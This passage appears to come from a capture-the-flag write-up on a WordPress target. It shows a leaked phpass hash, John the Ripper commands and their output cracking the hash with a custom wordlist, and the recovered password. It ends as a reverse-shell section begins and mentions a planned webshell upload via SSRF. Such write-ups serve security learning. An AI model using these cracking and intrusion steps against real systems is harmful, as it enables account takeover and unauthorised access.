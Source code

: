

Credentials stored in the database are:

| username | hash |
|----------|------|
|eddiethehead | $P$Bi423VbUyNs7iWzYNNDqPBdisIiL.D0|

### Offline bruteforce

Having a hash, we can try to break it, testing all the possibilities. If it doesn't work, I can try to upload a webshell via our SSRF

```bash
host $ echo "$P$Bi423VbUyNs7iWzYNNDqPBdisIiL.D0" > hash 
host $ john hash --wordlist=rockyou.txt 
```

Nothing relevant after few minutes. Odie put a strong password or the password is not in the rockyou wordlist.

`John` is able to change wordlists content following preset customization rules. Modifying `rockyou` will take to long, I decided to do my own wordlist, containing only 8 words:

```raw
eddiethehead
ironmaiden
admin
root
ensibs
test
administrator
wordpress
```

I want to maximize my chances, I decide to use all of John's customization rules:

```bash
host $ john hash --wordlist=wordlist --rule=all   

Warning: detected hash type "phpass", but the string is also recognized as "phpass-opencl"
Use the "--format=phpass-opencl" option to force loading these as that type instead
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x4x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
eddiethehead123  (?)
1g 0:00:00:00 DONE (2018-12-27 00:53) 1.298g/s 935.0p/s 935.0c/s 935.0C/s Eddiethehead46..eddiethehead7777
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Great! It worked! The hash is broken, the password is: `eddiethehead123`.

### RCE to reverse shell

It's time for me to log on the WordPress administration panel:
